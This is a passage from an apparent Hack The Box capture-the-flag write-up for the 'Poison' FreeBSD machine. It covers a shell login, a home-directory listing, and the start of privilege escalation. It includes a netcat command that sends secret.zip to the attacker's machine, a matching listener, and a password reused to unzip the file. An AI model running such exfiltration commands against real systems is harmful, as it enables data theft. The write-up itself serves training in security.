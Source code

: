 ```

Edit /etc/motd to change this login announcement.
You can often get answers to your questions about FreeBSD by searching in the
FreeBSD mailing list archives at

        http://www.FreeBSD.org/search/search.html
charix@Poison:~ % 
```

In!

### Privilege Escalation

Looking in our home directory we see a suspicious zip file.

```
charix@Poison:~ % ls -al
total 48
drwxr-x---  2 charix  charix   512 Mar 19 17:16 .
drwxr-xr-x  3 root    wheel    512 Mar 19 16:08 ..
-rw-r-----  1 charix  charix  1041 Mar 19 17:16 .cshrc
-rw-rw----  1 charix  charix     0 Mar 19 17:17 .history
-rw-r-----  1 charix  charix   254 Mar 19 16:08 .login
-rw-r-----  1 charix  charix   163 Mar 19 16:08 .login_conf
-rw-r-----  1 charix  charix   379 Mar 19 16:08 .mail_aliases
-rw-r-----  1 charix  charix   336 Mar 19 16:08 .mailrc
-rw-r-----  1 charix  charix   802 Mar 19 16:08 .profile
-rw-r-----  1 charix  charix   281 Mar 19 16:08 .rhosts
-rw-r-----  1 charix  charix   849 Mar 19 16:08 .shrc
-rw-r-----  1 root    charix   166 Mar 19 16:35 secret.zip
-rw-r-----  1 root    charix    33 Mar 19 16:11 user.txt
```

Let's exfil this with netcat over to our attacking machine.

```
charix@Poison:~ % nc -w 2 10.10.14.8 443 < secret.zip
```

```
root@kali:~/htb/poison# nc -lvnp 443 > secret.zip
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.84] 13787
```

The zip is password protected but we can use the same password as charix's ssh password to successfully unzip.

```
root@kali:~/htb/poison# unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password:
 extracting: secret
```

Checking out the file we can see that it's supposedly a regular ASCII file. 
